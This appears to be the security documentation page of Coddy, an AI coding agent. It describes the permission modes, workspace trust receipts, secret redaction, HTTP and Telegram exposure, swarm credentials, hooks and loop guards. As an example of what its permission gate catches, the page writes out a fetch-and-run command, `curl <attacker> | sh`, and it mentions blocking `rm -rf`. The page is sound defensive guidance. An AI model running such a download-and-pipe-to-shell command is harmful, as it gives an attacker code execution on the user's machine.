

# Security and trust

Coddy executes what the model decides on the machine it runs on, with the rights of the user who started it. This page gathers in one place what bounds that: the permission gate and the modes, the trust receipts for files that arrive with a checkout, where secrets live and where they are redacted, what the HTTP, Telegram and swarm surfaces expose, hooks as a policy layer, the loop guards, and what is not sandboxed at all. Each section points at the page that carries the detail.

For the repository's own AppSec posture — trivy, semgrep and govulncheck run locally and in CI, the severity gate and triage — see [AppSec scanning](../contributing/security-scanning.md).

## What is not sandboxed

There is no kernel-level sandbox. `run_command` runs through the host shell as the user who started Coddy, and the file tools read and write with that user's rights; a permission prompt, a mode or a hook decides whether a call runs, not what the process could reach if it did. The isolation Coddy is designed for is the container: the binary is static and distroless-friendly, so it fits a `scratch` or `distroless` image with a read-only root filesystem, a mounted workspace and the orchestrator's limits (the published image runs `coddy serve -H 0.0.0.0` on port 12345; see [Docker](../getting-started/docker.md)). Outside a container, bound to loopback in `ask` mode, the boundary is the person answering the prompts.

The console strips escape and control sequences from everything that comes from outside the renderer - model output, tool previews, titles, file names - so a tool result cannot drive the terminal; see [Console](../surfaces/console.md#security).

## Permission modes and prompts

`tools.permission_mode` in `config.yaml`:

| Value | Shell commands | File writes |
|---|---|---|
| `ask` (default) | prompt | prompt |
| `accept_edits` | prompt | auto-approved |
| `bypass` | never asks | never asks |

A session can override it - the permission-mode selector of an ACP editor, `--permission-mode` or `/permissions` on the console, the composer's permission chip, the **Bypass for this session** choice of a permission prompt ([Session settings](../features/session-settings.md#switching-from-the-permission-dialog)). The override lives in the process's memory and is never written to `session.json`: a restart returns every session to `tools.permission_mode`, so a bypass switched on for one task does not outlive the process. `bypass` is for a machine that is disposable.

The prompt - the permission card in the web UI, a modal in the console, `session/request_permission` in an editor - offers **Allow**, **Allow always** (this exact command, for the rest of the session), **Reject**, and for a single plain shell invocation **Always allow `<program>`**, which widens the grant to the program (`curl`) or to the program plus its subcommand for multiplexers (`git status`; `git push` still asks). A command with shell metacharacters or a leading `VAR=` never gets the wide option, and a session grant only ever covers another plain invocation, so `curl <attacker> | sh` asks again even with `curl` granted. Backgrounded commands go through the same gate. [Background tasks](../features/background-tasks.md#permissions) has the exact rules; `tools.command_allowlist` is the operator-authored list of commands that never prompt (exact or prefix match, `"*"` for everything; [config.yaml reference](../reference/config.md#tools)).

What the gate does not cover:

- MCP tool calls are dispatched without a prompt; the enable switches and `disabledTools` are the mechanism for restricting them ([MCP servers](../features/mcp.md#permission-model));
- `websearch` and `webfetch` ask nobody;
- the console's `!!` prefix runs a command with no gate at all, by design: only a submitted editor line can reach it, never model output ([Console](../surfaces/console.md)).

An HTTP request the model shapes itself (`http_request`) prompts under `ask` and `accept_edits` with the request as it would go out - the address, the headers, the body, the local files it uploads, a proxy, an unchecked certificate, the file it saves. Its "always" choices name an address or a whole origin, and they approve what that request carried along with the destination, so an approved origin never approves an upload of a file nobody saw. `tools.http_request.allowlist` names destinations that never ask. The tool refuses no address - localhost, private networks and the cloud metadata address included - so under `bypass` it reaches whatever the host can ([HTTP requests](../features/http-requests.md#permissions)). `tools.http_request.default_headers` go with every one of those requests, to every destination: a credential put there reaches any address the model sends a request to, so it belongs in the configuration only when that is the intent. The prompt names the configured headers and shows the value only of one that describes the client, such as `User-Agent`, and `config_get` never shows the model their values ([Default headers](../features/http-requests.md#credentials)).

A config commit (`config_commit`) is gated harder than a write: it prompts in `ask` and `accept_edits`, because it can start MCP processes and change the policy itself; only `bypass` skips it.

Surfaces without a person answering resolve prompts on their own. Print mode (`coddy -p`) allows under `bypass` and rejects otherwise. The Telegram gateway approves the chat agent's own prompts so the bot can work unattended; a narrowed subagent whose own mode is not `bypass` is asked about in the chat with **Allow** / **Reject** buttons instead, and only the person whose session asked can answer. A turn woken by a finished background task asks where somebody can answer: the console's modal, the editor under `coddy acp`, and on `coddy serve` the Telegram chat bound to the session (with the chat's own rules) or else the web UI and a console following the turn, where the prompt waits, persisted, until one of them answers; only a `coddy serve` with no surface to show the session denies a gated call inside it, unless its mode is `bypass`. A detached subagent that asks after the turn that spawned it has ended is held, not auto-answered: its prompt waits in the conversation it belongs to - the parent chat in the web UI, the console's modal (also over `--remote`), the Telegram chat of the session - until somebody answers or the run times out, and where nothing can show it (`coddy acp`, print mode, a scheduled run) it is refused with a reason the child reports.

Modes bound the tool set before permissions apply: `plan` writes text and markdown only, and `ask` gets a read-only allowlist (`read`, `keep_result`, `glob`, `grep`, `print_tree`, `websearch`, `webfetch`, `question`, `load_skill`, `coddy_docs_search`, `coddy_docs_read`) that is enforced when a call executes, so a call replayed from history is refused rather than run. See [Operating modes](../features/modes.md). A subagent definition can only narrow the parent's `permission_mode`, `tools` and `disallowed_tools`, and a child's prompts are relayed to the parent's client with a `[subagent <name>]` prefix ([Subagents](../features/subagents.md)).

## Workspace trust for project-local files

Four kinds of file inside a checkout can make Coddy start a process, fetch code into your home or steer the model before any prompt exists. All four are held under the same kind of policy until the operator approves that exact file or entry for that workspace:

| Content | Files under the workspace | Policy key | Receipts | Approve with |
|---|---|---|---|---|
| MCP servers | `.coddy/mcp.json` | `mcp.project_trust` | `$CODDY_HOME/mcp-trust.json` | `coddy mcp trust <name>`, `POST /coddy/mcp/{name}/trust`, the shield in Settings > MCP servers |
| Hooks | `.coddy/hooks.json`, `.claude/settings.json`, `.claude/settings.local.json` | `hooks.project_trust` | `$CODDY_HOME/hooks-trust.json` | `coddy hooks trust <file>`, `POST /coddy/hooks/trust` |
| Subagents | `.agents/agents/*.md`, `.coddy/agents/*.md` (and a `subagents.dirs` entry inside the workspace) | `subagents.project_trust` | `$CODDY_HOME/subagents-trust.json` | `coddy agents trust <name>`, `POST /coddy/subagents/{name}/trust`, the shield in Settings > Subagents |
| Skill marketplaces | `.coddy/marketplaces.json` | `skills.project_trust` | `$CODDY_HOME/skills-trust.json` | `coddy plugin marketplace trust <name or source>`, `POST /coddy/skills/sources/trust`, the shield in Settings > Skills |

Each policy takes `ask` (the default: parsed and listed, held until approved), `allow` (treated like your own files, for checkouts you already trust) or `deny` (never used). A receipt is keyed by the canonical workspace path and a digest of what was approved, so editing an approved file or declaration withdraws the approval and the next session asks again; an approval from the web UI also names the digest it was shown, and a file rewritten in between is refused rather than approved unseen. An MCP approval also records the variables of your environment the declaration reads, so a project server approved before `${NAME}` expanded in project files is asked about again once its values name a variable. The four receipt files are deliberately separate: an MCP approval can never read as a hook approval or the reverse. A marketplace entry decides what a sync installs into `${CODDY_HOME}/skills`, where every session of every workspace reads it, so a held entry is neither synced nor offered for installation, and the chat's `/plugin` cannot approve one. Every approval surface prints the effective declaration first - for an MCP server the command, its arguments, the names of the environment variables and headers it carries and the variables of your environment its values read (`${NAME}`, which a project's `.coddy/mcp.json` may use like your own file), never their values.

Your own files are not gated: `config.yaml`, `~/.coddy/mcp.json`, `~/.coddy/hooks.json`, `~/.coddy/agents` and `~/.coddy/marketplaces.json` are operator-authored, and so is an MCP server an ACP client declares in `session/new`; the built-in `EvilFreelancer/rpa-skills` marketplace is trusted as part of Coddy. `coddy acp` and `coddy serve` take `--mcp-project-trust ask|allow|deny` to set the MCP policy for one process, which is what a CI job or a container entrypoint uses instead of editing the file. Full detail: [MCP servers](../features/mcp.md#workspace-trust-for-project-local-servers), [Hooks](../features/hooks.md#project-files-and-trust), [Subagents](../features/subagents.md#scopes-and-project-trust), [Skills](../features/skills.md#project-marketplaces-and-trust).

Rules and skills from a checkout are a different kind of content and carry no receipt: `.coddy/rules`, the shared `.agents/rules`, `.cursor/rules`, `.claude/rules`, `.codex/rules`, nested `AGENTS.md` files and the skills under the project's `.agents/skills` and `.coddy/skills` are text that steers the model, loaded from the workspace as soon as a session opens there. (`~/.coddy/AGENTS.md`, `~/.coddy/DESIGN.md` and `~/.coddy/rules` are read the same way but arrive from nowhere: they are your own files, next to your `config.yaml`, and no `git clone` writes them.) They can ask the model to run something; they cannot run it themselves, so whatever they ask for still meets the mode, the permission gate and your hooks. Read a checkout's rules the way you read its build scripts. See [Rules](../features/rules.md) and [Skills](../features/skills.md).

A session that finds a held hooks file records a notice, so you learn that hooks exist and are held rather than silently skipped:

## Secrets

- **Provider keys.** `providers[].api_key` is a literal, a `${ENV}` reference expanded when the file loads, or empty, in which case `NAME_API_KEY` (the provider name upper-cased, hyphens to underscores) is read at call time. `api_key_command` runs a credential helper through the host shell, bounded to 30 seconds, and uses its stdout when `api_key` is empty; the order is literal, then helper, then the environment variable. A `codex` row takes no key at all: it signs in with ChatGPT, and an `api_key_command` left on it never runs. Keep `config.yaml` free of literal keys and reference the environment.
- **The `.env` file.** `$CODDY_HOME/.env` is read before `config.yaml` is parsed, one `KEY=VALUE` per line (`export`, quotes and comments accepted); a variable already set in the process environment is never overridden. A literal dollar sign in a value is written as `$$`. See [Configuration](../getting-started/configuration.md).
- **Provider logins.** `coddy providers login codex`, `coddy providers login neuraldeep` and `coddy providers login devin` (and, for the first two, the sign-in buttons in the web UI) store the issued credentials under `$CODDY_HOME/providers/<name>/` - `codex-auth.json`, `neuraldeep-auth.json`, `devin-auth.json` - in a directory created `0700` with the file at `0600`. `coddy providers list` shows which source each request actually uses and `coddy providers logout <name>` revokes and forgets a login (for Devin it forgets the local token; the Devin session ends on Devin's side). A `devin` row also reads the Devin CLI's own `credentials.toml` when no Coddy login exists, and never writes to it; the Devin browser sign-in listens on `127.0.0.1` only and checks the `state` in constant time, like the NeuralDeep one.
- **Redaction.** `GET /coddy/config` never returns `httpserver.auth_token`, the sign-in password hash, a shared-model token (`httpserver.shared_models.tokens`, reported as the count `tokens_configured`) or a swarm token (`swarm.auth_token`, `swarm.pairing_tokens`, a join entry's `pairing_token` and `token`, an upstream's `token`, a scoped client's `token`): it reports that one is set (`auth_configured`, `login_configured`, `pairing_configured`, `token_configured`), and a save that leaves the field empty keeps the stored value; a save from the Settings UI writes a `${VAR}` reference back as a reference rather than as the secret it resolved to; `coddy -t` and `--dry-run` never echo a value under a secret-shaped key (`api_key` and any `*_api_key` such as `tools.websearch.brave_api_key`, `auth_token`, `pairing_tokens`) and mask the Telegram token in errors; the config-commit prompt lists the staged commands with secrets redacted; `GET /coddy/mcp` names the environment variables and headers of an MCP declaration with `<redacted>` in place of every value, cleans the values a declaration resolves to out of a probe error, and a save from its editor keeps a hidden value only for the declaration it was shown (the command, its arguments and the URL are listed as written, so keep secrets in `env`, `headers` or the environment as `${NAME}`, see [MCP servers](../features/mcp.md#management-api-and-ui)); the swarm proxy replaces the caller's `Authorization` header rather than forwarding it.
- **Tokens on the wire.** The console and `coddy acp` take the token for `--remote` from `--remote-token`, then from the `token` of the matching `httpserver.remotes` entry, then from `CODDY_REMOTE_TOKEN`, and a token about to travel over plain `http://` to a non-loopback host produces a warning. A remote's `token` is optional and, unlike `auth_token`, is sent back by `GET /coddy/config`, because the web UI of the machine it is configured on presents it: every browser that opens that UI receives it, so write it as a `${ENV}` reference or leave it out. Without it, the web UI keeps a remote token in the browser only. See [The token](remote.md#the-token).
- **Transcripts on disk.** Every session bundle under `$CODDY_HOME/sessions/<id>/` holds the full conversation in `messages.json`, tool output included, and the files attached to it under `assets/` (written read-only, `0444`). Whoever can read the home directory can read every conversation; `sessions.dir` moves the store, and `/export` writes a copy into the workspace on request.

## The HTTP surface

`coddy serve` binds `127.0.0.1:12345` unless `httpserver.host` or `-H` says otherwise, and it has **no login by default**: with the API reachable, anyone on the network holds every route, the config editor (`PUT /coddy/config`) and the workspace files included. Expose the port only on a network you trust, or:

- set a bearer token - `httpserver.auth_token` (`${ENV}` expanded), `--auth-token`, or `CODDY_HTTP_TOKEN`; every `/v1/*` and `/coddy/*` route then answers `401` without `Authorization: Bearer`, the SPA shell stays public, and `/docs` and `/openapi.*` are protected unless `httpserver.public_docs: true`;
- when you lend models to other Coddys, give each borrower a token of the LLM-only class: `httpserver.shared_models.tokens` opens only the LLM routes (the three calls and the probe's ping) of [shared models](../features/shared-models.md#shared-model-tokens) and any entry closes the gate on everything else, while `httpserver.auth_token` opens the whole API, the agent and its shell included, so a borrower of a model never needs it; a shared-model token also reads, through `GET /coddy/llm/models/{alias}/usage`, how much of the account behind an alias is left (percent used per window and the seconds to its reset - never the plan, the key's name, the wallet, the provider or an upstream model id), so share with people you would show that meter to, and set `providers[].usage_limits_panel: false` on the lender's provider row to answer "no usage" to everybody; a shared model needs a credential whatever the listen address, a token is never of two classes, and a row backed by a subscription login (`codex`, `devin`, `neuraldeep` without a key of its own) is shared only with `shared_subscription_ack: true`;
- close the browser surface with an account - `coddy serve set-password`, or `CODDY_HTTP_USER` / `CODDY_HTTP_PASSWORD` in `$CODDY_HOME/.env`; a browser then signs in at a form and carries an `HttpOnly` cookie, which gates the same routes the token gates. A token is for API clients and the form is for browsers: set **both** when anything other than a browser talks to the server, because a password alone leaves `coddy --remote`, `coddy acp --remote`, a swarm relay and every script without a credential;
- put TLS on the port: a reverse proxy in front, or `httpserver.tls` on the server itself (HTTP/1.1 only; with `client_ca_file` it also asks for client certificates, and `httpserver.shared_models.cert_names` lets a verified certificate name open the shared-model routes and nothing else, [Shared models](../features/shared-models.md#tls-and-client-certificates-on-the-listener)); without either the server speaks plain HTTP;
- enable CORS (`httpserver.cors`) only for the origins that need it, and in this order: exact `allowed_origins` first, `allow_loopback` for a laptop's own `coddy serve` on any loopback port, `"*"` last. None of the three is a credential: CORS decides whether a browser shows a page the answer, the token or the sign-in form decides whether the server gives one. So on a server with neither, `allow_loopback` hands the API - `GET /coddy/config` with the provider keys, a turn with the shell tools - to every page served from the browser's own machine (a dev server, a desktop app's page), and `"*"` to every page anywhere; `coddy serve` warns at start and `--dry-run` reports it when either is on without a credential, whatever the bind address, and `httpserver.allow_insecure` silences that warning like the other. Two loopback ports are one site, so the sign-in cookie does travel from a page on another local port; what keeps that page out is that the server never sets `Access-Control-Allow-Credentials` (the browser withholds the answer) and refuses a cookie-authenticated write from another origin with `403`;
- prefer the header over `?access_token=`, which only the two SSE routes accept and which reaches proxy access logs;
- leave `httpserver.allow_insecure` unset: it silences the two startup warnings about a server without a credential - a non-loopback bind, and CORS that admits pages nobody listed - together with the `--dry-run` findings that mirror them, and nothing else.

The sign-in form stores an argon2id hash, never a plaintext password, and `GET /coddy/config` reports only that an account exists and where it came from. Wrong passwords are answered in constant time and progressively more slowly per source address, counted before they are judged so a burst pays the wait too, with loopback exempt so the machine cannot lock itself out - and behind a reverse proxy, where every request arrives from loopback, the forwarded client address is what the throttle counts. The session cookie is `HttpOnly` and `SameSite=Strict`, so no script reads it and no request another site caused carries it; on top of that a cookie-authenticated request that changes state is refused unless it came from this origin (`Sec-Fetch-Site` or `Origin`), while bearer requests are not subject to that check. Sessions are held in memory only, so restarting the process ends them, and rotating the password ends every session it opened.

The Docker image binds `0.0.0.0` inside the container, so the mapped port is reachable from wherever the host is; treat it like any admin API. Reference: [HTTP API](../reference/http-api.md#authentication-optional), [Web UI sign-in](../reference/http-api.md#web-ui-sign-in-optional), [Remote mode](remote.md).

## The Telegram gateway

Access is checked on every incoming message and a denied message is dropped silently. `admins` lists the Telegram user ids with elevated rights; `default_access` is `all` (anyone who can write to the chat), `admins`, or `group:<name>` for a set defined under `user_groups`; `chats[]` overrides `access` and `isolation` (`individual`, `shared`, `admin`) per chat. The bot token belongs in the environment (`"${TELEGRAM_BOT_TOKEN}"`), never in version control. The gateway uses long polling, so no inbound port is opened. Because the gateway approves every permission prompt itself, the permission mode does not bound the bot: bound it with a `PreToolUse` hook (below), a container, or by restricting who may talk to it. See [Telegram gateway](../surfaces/gateway.md#security-notes).

## Swarm

A relay carries three credentials with three jobs: `swarm.auth_token` lets clients use the relay, `swarm.pairing_tokens` lets nodes join it, and a per-node token lets the relay act as that node. A relay is a fleet-wide door - whoever holds its client token controls every node it reaches, and the full client token has no per-node ACL (a scoped client does, for the shared-model routes: [Scoped clients](swarm.md#scoped-clients)) - so give each node a credential minted for its relay and keep the pairing token secret. A relay bound off loopback without a client token refuses to start (`swarm.allow_insecure` lifts the refusal and a token is still generated); on loopback one is generated per run. A node's name is proven by a per-lease secret, not by the shared pairing token. Advertised URLs are an SSRF boundary: `http(s)` only, no credentials; link-local, metadata and, unless `swarm.allow_private_upstreams` names them, private addresses are refused, and the resolved addresses are pinned. TLS for the relay is `swarm.tls.cert_file` / `key_file` (TLS 1.2 minimum, a restart to rotate), and `insecure_skip_verify` is logged once, as a warning, when its join or upstream starts. A relay can present a client certificate and trust a private authority towards the nodes that registered themselves ([`swarm.node_tls`](swarm.md#the-relays-own-certificate-towards-a-node)) and can ask its own clients for certificates (`swarm.tls.client_ca_file`). See [Swarm](swarm.md#security) and [Encryption and proxies](swarm.md#encryption-and-proxies).

## Hooks as a policy layer

A `PreToolUse` hook runs before the permission prompt on every matching call, whatever the permission mode, in child sessions too, and can deny the call (exit `2`, or `permissionDecision: "deny"`), force the prompt (`"ask"`) or rewrite the arguments. With `failClosed: true` a crash or a timeout of the hook blocks the call instead of letting it through, which is what a policy hook wants. `UserPromptSubmit` can reject a prompt, `SubagentStart` can refuse a delegation, `PreCompact` can veto a compaction, and `Notification` can ping you when a prompt is waiting. Hooks run with your permissions and see every argument, so review each one; your own file, `~/.coddy/hooks.json`, always runs, while project files follow the trust policy above. The worked example that blocks `rm -rf` whatever the mode is in [Hooks](../features/hooks.md#examples).

## Loop guards and caps

`agent.max_turns` bounds the ReAct steps of one user turn at 165 by default; set it to `0` only to explicitly disable the cap. A turn it stops ends with a notice that names it. `agent.loop_guard` (default `true`) cuts a streamed response that degenerates into repeating the same passage (`loop_stream_repeat_cycles`), stops executing a tool called over and over with identical arguments (`loop_tool_repeat_limit`), nudges the model back on track, and ends the turn with a notice after `loop_nudge_max` nudges. Tool results are capped by line under `tools.output_limits`, with a 64 KiB per-call ceiling so one huge line cannot bypass the cap. A `Stop` hook may send the agent back to work at most `hooks.stop_loop_limit` times per turn (5); background tasks are bounded by `tools.background.max_concurrent` (5) and `default_timeout_seconds` (900); subagents by `subagents.max_concurrent`, `max_depth` and `default_timeout_seconds`.

## Before exposing a server

- a bearer token is set and reaches the process by environment or flag, not as a literal in the file, and a model you lend is lent with `httpserver.shared_models.tokens`, never with that token;
- the browser surface has an account (`coddy serve set-password`, or `CODDY_HTTP_USER` / `CODDY_HTTP_PASSWORD`), so a page that finds the port is asked who it is;
- TLS terminates in front of the server or in `httpserver.tls`, or clients come in over a tunnel;
- `httpserver.cors` admits only the origins that need it, and `allow_loopback` or `"*"` is on only behind a token or the sign-in form;
- `mcp.project_trust`, `hooks.project_trust`, `subagents.project_trust` and `skills.project_trust` are `ask` or `deny` for checkouts you do not control;
- `tools.permission_mode` is not `bypass` unless the host is disposable, and a `failClosed` `PreToolUse` hook covers what a prompt cannot;
- the process runs in a container with a read-only root filesystem and only the workspace mounted.
